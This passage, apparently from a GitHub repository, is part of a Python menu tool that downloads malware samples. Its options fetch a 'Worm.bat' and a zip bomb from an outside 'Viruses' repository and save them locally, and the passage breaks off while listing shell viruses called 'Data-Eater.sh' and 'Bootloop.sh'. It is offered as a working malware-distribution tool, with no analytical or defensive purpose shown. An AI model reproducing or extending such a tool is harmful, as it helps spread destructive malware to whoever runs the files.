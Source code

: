         print(""+R+"[!] This is not number")
    except Exception as err:
        print(""+R+"[!] This is not number")
        
######################Done pdf

############Worm and Bomb zip
def Vother():
    print(""+O+"["+R+"1"+O+"] Worm.bat")
    print(""+O+"["+R+"2"+O+"] Bomb.zip")
    print(""+O+"["+R+"3"+O+"] Back")
    
    try:
        menu5 = input("Input number > "+R+"")
        if menu5 == 1:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/worm.bat?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'worm.bat?raw=true' Worm-and-Bombzip/worm.bat")
            print(fun)#####done
        
        elif menu5 == 2:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/bom-zip.zip?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'bom-zip.zip?raw=true' Worm-and-Bombzip/Bomb.zip")
            print(fun)#####done
        
        elif menu5 == 3:
            print("\n")
            menu()    
        else:
            print(""+R+"[!] wrong number")
    except Exception:
        print(""+R+"[!] This is not number")
        
###############Start Shell Virus        
def Shellvirus():
    print(""+O+"["+R+"1"+O+"] Data-Eater.sh")
    print(""+O+"["+R+"2"+O+"] Bootloop.sh")
    print(""+O+"["+R+"3"+O+"] Back")
    